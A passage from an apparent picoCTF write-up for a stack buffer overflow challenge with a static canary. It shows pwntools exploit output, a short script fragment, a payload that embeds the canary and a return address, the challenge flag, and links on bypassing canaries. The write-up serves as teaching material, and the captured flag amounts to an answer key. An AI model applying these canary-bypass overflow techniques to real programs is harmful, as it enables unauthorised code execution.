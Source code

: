 ```
[DEBUG] Sent 0x1 bytes:
    10 * 0x1
$ 
[DEBUG] Sent 0x1 bytes:
    10 * 0x1
$ 
[DEBUG] Sent 0x1 bytes:
    10 * 0x1
$ 
[DEBUG] Sent 0x1 bytes:
    10 * 0x1
$ 
[*] Interrupted
[*] Closed connection to saturn.picoctf.net port 52245

```

Or for a cleaner code, we can just strip the chariot returns : 

```python
...
p.sendlineafter(b'Input> ',payload)
print(p.recvall().strip(b"\r"))
p.interactive()
...
```

```
┌──(rivench㉿kali)-[~/Documents/picoCTF/pwn/buffer_overflow_3]
└─$  /usr/bin/python3 "/home/rivench/Documents/picoCTF/pwn/buffer_overflow_3/script.py"                                                                                            1 ⨯
[+] Opening connection to saturn.picoctf.net on port 49638: Done
[+] Receiving all data: Done (162B)
[*] Closed connection to saturn.picoctf.net port 49638
b"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaBiRdraaasaaataaauaaa6\x93^H\r\nOk... Now Where's the Flag?\r\npicoCTF{Stat1C_c4n4r13s_4R3_b4D_35bc40e2}\r\n"
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive
```

**Note :** in order to run `vuln` binary, add execution permissions to it.

## Flag

picoCTF{Stat1C_c4n4r13s_4R3_b4D_35bc40e2}

## More information

https://ctf101.org/binary-exploitation/stack-canaries/
https://bananamafia.dev/post/binary-canary-bruteforce/
